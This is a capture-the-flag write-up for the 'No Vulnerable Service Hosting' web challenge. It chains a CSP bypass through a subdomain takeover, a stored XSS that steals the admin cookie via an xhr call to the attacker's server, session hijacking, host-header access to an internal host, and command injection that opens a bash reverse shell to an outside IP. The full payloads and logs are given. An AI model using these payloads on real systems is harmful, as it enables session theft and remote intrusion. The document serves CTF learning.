 ## No Vulnerable Service Hosting  

### Description  
No Vulnerable Services is a company founded on the idea that all websites should be secure. We use the latest web security standards, and provide complementary pentests of all customer sites with our exclusive NoPwn® guarantee.  

Be #unhackable.™  

## Vulnerability  
By taking a brief look at the index page we notice registration page POST request which we can send a description including our email address to company. Admin will take a look at it afterwards.  

Interesting thins is the SOP policy of requests sent to the server:  

```
Content-Security-Policy:  
default-src 'none';  
script-src *.no.vulnerable.services https://www.google.com/ https://www.gstatic.com/;  
style-src *.no.vulnerable.services https://fonts.googleapis.com/ 'unsafe-inline';  
img-src *.no.vulnerable.services;  
font-src *.no.vulnerable.services https://fonts.gstatic.com/;  
frame-src https://www.google.com/  
```  

So, basically we cannot use payloads like the following:  

`<img src=x onerror="var xhr=new XMLHttpRequest(); xhr.open('GET', 'http://{{server_ip}}/cookie.php?c='+ btoa(document.body.innerHTML), false); xhr.send();">`  

The reason is that xhr or fetch gonna get blocked by `default-src: None` policy of CSP. So, in order to execute javascript code on client-side we need to take over one of the sub-domains under `*.no.vulnerable.services` and place our scripts there.  

Then I started using dig to get information about `no.vulnerable.services` domain as the following:  

`dig no.vulnerable.services` : `216.165.2.40`  

Now by taking a closer look at another clue on the page, I noticed this text in the body of index.  

`Served By: d8a50228.ip.no.vulnerable.services in 0.39ms`  

By digging that, I found that interestingly both of the addresses are the same:  

`dig d8a50228.ip.no.vulnerable.services` : `216.165.2.40`  

So, I just tried to find the pattern and I converted hex letters to integer equivalent and I got it's the same.  

`0xd8 = 216, 0xa5 = 165, 0x02 = 2, 0x28 = 40`  

So, what if I convert my servers ip address to this notation? like `{{converted_ip_to_hex}}.ip.no.vulnerable.services`.  Bingo I got this:  

`23e25ca4.ip.no.vulnerable.services. 5 IN A      35.226.92.164`  

Now, let's host a script on our server to read document.cookie back to our server and then checking logs to see if we can leak admin cookies:  

Obviously as I described the following payload should work because it's on the same sub-domain:  

```javascript
var xhr=new XMLHttpRequest();  
xhr.open('GET', 'http://23e25ca4.ip.no.vulnerable.services/cookie.php?c='+ btoa(document.cookie), false);  
xhr.send();  
```  

The content of description sent to Admins:  

```javascript
<script src="http://23e25ca4.ip.no.vulnerable.services/error.js"></script>
```

```
And we can see in access.logs the following:  
216.165.2.40 - - [19/Sep/2018:17:41:29 -0700] "GET /error.js HTTP/1.1" 200 558 "http://admin.no.vulnerable.services/review.php?id=2561" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Ubuntu Chromium/69.0.3497.81 HeadlessChrome/69.0.3497.81 Safari/537.36"
216.165.2.40 - - [19/Sep/2018:17:41:30 -0700] "GET /cookie.php?c=UEhQU0VTU0lEPXNrNGRhNDkxMzJncHUyMGVvNjJsZ3I5c25o HTTP/1.1" 200 429 "http://admin.no.vulnerable.services/review.php?id=2561" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Ubuntu Chromium/69.0.3497.81 HeadlessChrome/69.0.3497.81 Safari/537.36"
```  

Cookie has been based64 encoded, after decoding we're going to have the following:  

`PHPSESSID=sk4da49132gpu20eo62lgr9snh`  

We need to add this cookie to page by updating DOM of page using `document.cookie`:  

`document.cookie="PHPSESSID=sk4da49132gpu20eo62lgr9snh"`  

Then we got access to main page of admin located at:  

`http://admin.no.vulnerable.services/`  

DIG shows the same IP address for this domain but there's a load balancer functionality which is located under `http://admin.no.vulnerable.services/lb.php`.  

Obviously we can see there's another IP address `216.165.2.41` and there're some internal IP addresses working in internal network and communicating with this IP. (May be some sort of NAT...)  

The other page is Support under `http://support.no.vulnerable.services/`, but it's not accessible from outside through internet.  

But when we perform DIG we can find an IP address for that which is as the following:  

`support.no.vulnerable.services. 5 IN    A       172.16.2.5`  

So, I tried to use curl to get access through `216.165.2.41` to this internal domain by converting it's IP address to the domain format accepted by server:  

`curl -vvv http://216.165.2.41/ -H 'Host: ac100205.ip.no.vulnerable.services'`  

Bingo!! here's the other page:  

```html
<html>  
        <head>  
                <title>NVS INTERNAL - Support</title>  
        </head>  
        <body>  
                <h1>NVS Support</h1>  
                <h3>General Debugging Steps</h3>  
                <ol>  
                        <li>Tell the customer to turn it off and back on again.</li>  
                        <li>Blame the customer for making a change.</li>  
                        <li>Use the tools below to check for networking issues.</li>  
                </ol>  
                <hr/>  
                <h3>Tools</h3>  
                <p>Ping</p>  
                <form action="ping.php" method="get">  
                        <input type="text" name="dest" placeholder="IP or hostname" />  
                        <input type="submit" value="Ping" />  
                </form>  
        </body>  
</html>  
```  

There's a command injection at `dest` parameter of `ping.php` page. But we need to url encode our payload, and to get reverse shell I gonna use raw tcp sockets like the following:  

`curl -vvv http://216.165.2.41/ping.php?dest=%60bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/35.226.92.164/443%200%3E%261%27%60 -H 'Host: ac100205.ip.no.vulnerable
.services'`  

Flag:  

```
www-data@c6b174e1cad7:/var/www/html$ ls  
ls  
flag.txt  
index.php  
ping.php  
www-data@c6b174e1cad7:/var/www/html$ cat flag.txt  
cat flag.txt  
flag{7672f158167cab32aebc161abe0fbfcaee2868c1}  
```  

Sincerely,  
Mohsen (@pwnslinger) from @shellphish  
